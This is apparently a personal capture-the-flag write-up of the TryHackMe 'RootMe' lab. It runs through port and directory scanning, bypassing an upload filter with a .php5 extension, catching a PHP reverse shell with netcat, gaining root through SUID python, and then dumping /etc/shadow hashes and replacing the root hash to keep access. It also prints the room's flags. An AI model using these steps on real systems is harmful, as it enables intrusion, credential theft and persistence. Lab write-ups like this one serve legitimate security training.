 ===RootMe	Flutter July 27 2021===

IP 10.10.152.22
	> export IP=10.10.152.22
MYIP 10.10.106.37
	> export MYIP=10.10.106.37


# Recon #


----------------
	Scanning
----------------

$ nmap -sV -sC -T5 -oN nmap_initial $IP

'''
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	http-cookie-flags: 
  		/: 
    		PHPSESSID: 
     			httponly flag not set
	http-server-header: Apache/2.4.29 (Ubuntu)
	http-title: HackIT - Home
'''
	> running SSH
	> using PHP

$ gobuster dir http://$IP -w directory-list-2.3-medium.txt -o gobuster_80

'''
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
'''

---------------------
	Visiting Site
---------------------

- not much value on home

- /panel dir
	> file upload page
    > trying PHP file (cat.php)
    
    	PHP não é permitido!

    
    > trying .php3, php4, php5, phtml

    	O arquivo foi upado com sucesso!


# Intrusion #

- uploading php-reverse-shell.php5 to /panel
	> courtesy of pentestmonkey <3

$ nc -lvnp 4443

- /uploads dir
	> running php-reverse-shell.php5

~Session caught on nc

$ id

	'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

- Stabalisation

	'''
	python -c 'import pty;pty.spawn("/bin/bash")'
	bash-4.4$ 
	CTRL Z
	stty raw -echo
	fg
	export TERM=xterm
	'''

bash-4.4$ ls -l /etc/passwd
	> world readable
bash-4.4$ cat /etc/passwd
	
	Users
		root
		rootme
		test


# PrivEsc #

bash-4.4$ find / -type f -user root -perm -u=s 2>/dev/null

	'''
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/lib/snapd/snap-confine
	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/openssh/ssh-keysign
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/bin/traceroute6.iputils
	/usr/bin/newuidmap
	/usr/bin/newgidmap
	/usr/bin/chsh
	/usr/bin/python
	/usr/bin/chfn
	/usr/bin/gpasswd
	/usr/bin/sudo
	/usr/bin/newgrp
	/usr/bin/passwd
	/usr/bin/pkexec
	/snap/core/8268/bin/mount
	/snap/core/8268/bin/ping
	/snap/core/8268/bin/ping6
	/snap/core/8268/bin/su
	/snap/core/8268/bin/umount
	/snap/core/8268/usr/bin/chfn
	/snap/core/8268/usr/bin/chsh
	/snap/core/8268/usr/bin/gpasswd
	/snap/core/8268/usr/bin/newgrp
	/snap/core/8268/usr/bin/passwd
	/snap/core/8268/usr/bin/sudo
	/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/snap/core/8268/usr/lib/openssh/ssh-keysign
	/snap/core/8268/usr/lib/snapd/snap-confine
	/snap/core/8268/usr/sbin/pppd
	/snap/core/9665/bin/mount
	/snap/core/9665/bin/ping
	/snap/core/9665/bin/ping6
	/snap/core/9665/bin/su
	/snap/core/9665/bin/umount
	/snap/core/9665/usr/bin/chfn
	/snap/core/9665/usr/bin/chsh
	/snap/core/9665/usr/bin/gpasswd
	/snap/core/9665/usr/bin/newgrp
	/snap/core/9665/usr/bin/passwd
	/snap/core/9665/usr/bin/sudo
	/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/snap/core/9665/usr/lib/openssh/ssh-keysign
	/snap/core/9665/usr/lib/snapd/snap-confine
	/snap/core/9665/usr/sbin/pppd
	/bin/mount
	/bin/su
	/bin/fusermount
	/bin/ping
	/bin/umount
	'''

	> /usr/bin/python looks promising

bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# id

	'uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)'

	> root gained

# find / -type f -name user.txt
	> /var/www/user.txt

# cat /var/www/user.txt
	
***Flag Found***
	THM{y0u_g0t_a_sh3ll}

# find / -type f -name root.txt
	>/root/root.txt

# cat /root/root.txt

***Flag found***
	THM{pr1v1l3g3_3sc4l4t10n}


---Okay, we've gotten all the flags for the challenge... but I'm not quite done---

//let's get those user hashes
# cat /etc/shadow
	
	'''
	root:$6$5osB44J2$24WV3zAR1FTqEq3f2kSqrigUgyDmKucU8rwHvbOJWxIoWSlHbVHV1Ug1eOHqidieZWDU3Y5V3cimChun2JYNw1:18478:0:99999:7:::

	rootme:$6$jzeDDmrVeqMMEQqv$j8jwWy951YwWBJWzQNn.A45I.8H06/QOv4qocX.hNDdT42NytyavSHxlxoEh0ek2OS4NX27tuuZRTJuHPSWCp.:18478:0:99999:7:::

	test:$6$vXOyvOWZ$UpIjnJq/KuKmKHezW/pEM.nrI6QuqhWWlv/fUmLvJI1YG7nju2vpP3vg1Q0SSf5FCk8058WD5Rc3XXPMRlqHb0:18478:0:99999:7:::
	'''
//eh, we can crack them another time for fun, not necessary

$ mkpasswd -m sha-512 FlutterWasHere > newpass
	'$6$n0dYLiOE/DZ$6PzFKyQpxCEGIf3ZFHUITMYmMuVH6vYC7QECwuXLJJMLMRKOr5Tf.pEJQMfP22BE9ouZ.A5l1d8c9ctJZ6un3.'

# nano /etc/shadow
	> replace hash with our own

# exit

bash-4.4$ su root
	> Password: FlutterWasHere

root@rootme:/# id

	'uid=0(root) gid=0(root) groups=0(root)'

Mwahaha root is all ours now, and the shell is more responsive

---Getting rid of the SUID---

root@rootme:/# chmod 755 /usr/bin/python
root@rootme:/# ls -l /usr/bin/python
	'-rwxr-xr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python'